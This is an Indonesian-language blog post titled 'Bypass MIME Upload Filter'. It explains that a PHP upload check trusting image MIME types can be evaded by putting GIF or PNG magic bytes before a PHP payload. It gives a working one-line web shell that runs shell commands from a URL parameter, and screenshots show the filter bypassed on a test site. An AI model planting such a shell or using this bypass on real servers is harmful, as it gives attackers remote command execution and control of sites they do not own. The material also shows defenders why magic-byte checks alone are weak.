 ```yaml
---
layout: post
title:  "Bypass MIME Upload Filter"
date:   2016-12-04 16:01:00 +0700
categories: bypass upload MIME filter extension
comments: false
---
```

 
Untuk melakukan upload filter yang dilakukan whitelist dalam bentuk MIME seperti muncul pada code PHP berikut :

```python
if($imageinfo['mime'] != 'image/gif' && 
   $imageinfo['mime'] != 'image/jpeg' && 
   $imageinfo['mime'] != 'image/jpg'&& 
   $imageinfo['mime'] != 'image/png') { die('Error 002'); }
```

disebutkan pada code tersebut bahwa hanya diperbolehkan untuk upload file yang dibatasi dengan MIME GIF, JPG dan PNG.
lalu bagaimana untuk bypass upload seperti ini.

cara mudahnya dengan cara menambahkan MIME tersebut pada shell yang akan di upload.

pada setiap **awal byte** file memiliki header sebagai identifikasi bahwa file tersebut memiliki content yang diikuti oleh headernya.
**first byte** ini biasa disebut MIME ( Multipurpose Internet Mail Extension ) pada kalangan internet, pada umumnya MIME disebut sebagai file file yang berekstensi yang dapat diikuti oleh format email yang meliputi standar email. MIME yang dimaksud disini adalah header yang berisikan informasi bahwa file tersebut adalah file berupa tipe apa dan menggunakan ekstensi apa. 

Maka dari itu artikel ini bertujuan utama untuk mengelabui fungsi utama dari php pada setiap kali mengirimkan file php akan mereturn beberapa data berupa array yang berisikan informasi mengenai file dari file size, file name, file extension dan juga file mime.

Setiap File memiliki **first byte** yang berbeda beda, berikut saya jelaskan beberapa **first byte** untuk file GIF, JPG dan PNG

GIF : pada first offset memiliki string **GIF89** atau 5 first byte nya **4749 4638 39**
![GIF first offest](http://k1m0ch1.github.io/images/first-byte-GIF.png)

PNG : pada first offset memiliki string **.PNG** atau 5 first byte nyte **8950 4e47 0d**
![PNG first offest](http://k1m0ch1.github.io/images/first-byte-png.png)

JPG : pada first offset memiliki string **JFIF** JPG memiliki null content sebanyak 6 byte, jadi first bytenya dimulai dari byte 7 **4a46 4946 00**
![JPG first offest](http://k1m0ch1.github.io/images/first-byte-JPG.png)

jadi first offset tersebut yang mengidtentifikasikan bahwa file tersebut tipe datanya seperti demikian.

lalu cara untuk bypass nya adalah cukup dengan membuat file *.gif atau tipe ekstensi yang di gunakan lalu dengan content file seperti berikut 

```python
GIF89

<?php echo shell_exec($_GET['cmd']); ?>
```
```python
.PNG

<?php echo shell_exec($_GET['cmd']); ?>
```

so lets try it

Upload File shell langsung

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-1.png)

ternyata terdapat whitelist

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-blocked.png)

lalu di coba upload file shell yang sudah diedit

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-2.png)

pwnd

![trying to upload file shell](http://k1m0ch1.github.io/images/pwnd.png)